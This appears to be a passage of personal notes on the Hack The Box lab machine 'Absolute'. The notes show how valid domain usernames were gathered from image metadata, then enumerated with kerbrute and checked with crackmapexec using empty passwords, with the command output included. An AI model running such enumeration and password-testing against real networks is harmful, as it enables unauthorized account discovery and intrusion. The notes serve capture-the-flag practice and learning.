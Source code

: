 * https://0xdf.gitlab.io/2023/05/27/htb-absolute.html

# Auth as d.klay
### Get Username List
```bash
for i in $(seq 1 6); do wget "http://absolute.htb/images/hero_${i}.jpg" ; done

for i in $(seq 1 6); do exiftool hero_${i}.jpg | grep Author | awk '{print $3 " " $4}'; done | tee users
James Roberts
Michael Chaffrey
Donald Klay
Sarah Osvald
Jeffer Robinson
Nicole Smith

~/Tools/username-anarchy/username-anarchy -i users | tee usernames

~/go/bin/kerbrute userenum --dc dc.absolute.htb -d absolute.htb usernames

2023/11/14 16:15:54 >  Using KDC(s):
2023/11/14 16:15:54 >   dc.absolute.htb:88

2023/11/14 16:15:54 >  [+] VALID USERNAME:       j.roberts@absolute.htb
2023/11/14 16:15:55 >  [+] VALID USERNAME:       m.chaffrey@absolute.htb
2023/11/14 16:15:55 >  [+] VALID USERNAME:       s.osvald@absolute.htb
2023/11/14 16:15:55 >  [+] VALID USERNAME:       d.klay@absolute.htb
2023/11/14 16:15:55 >  [+] VALID USERNAME:       j.robinson@absolute.htb
2023/11/14 16:15:56 >  [+] VALID USERNAME:       n.smith@absolute.htb
```

##### Double confirm with crackmapexec

```zsh
crackmapexec smb $IP -u usernames_short -p ''
SMB         10.129.229.59   445    DC               [*] Windows 10.0 Build 17763 x64 (name:DC) (domain:absolute.htb) (signing:True) (SMBv1:False)
SMB         10.129.229.59   445    DC               [-] absolute.htb\j.roberts: STATUS_ACCOUNT_RESTRICTION 
SMB         10.129.229.59   445    DC               [-] absolute.htb\m.chaffrey: STATUS_ACCOUNT_RESTRICTION 
SMB         10.129.229.59   445    DC               [-] absolute.htb\s.osvald: STATUS_ACCOUNT_RESTRICTION 
SMB         10.129.229.59   445    DC               [-] absolute.htb\d.klay: STATUS_ACCOUNT_RESTRICTION 
SMB         10.129.229.59   445    DC               [-] absolute.htb\j.robinson: STATUS_ACCOUNT_RESTRICTION 
SMB         10.129.229.59   445    DC               [-] absolute.htb\n.smith: STATUS_ACCOUNT_RESTRICTION
```
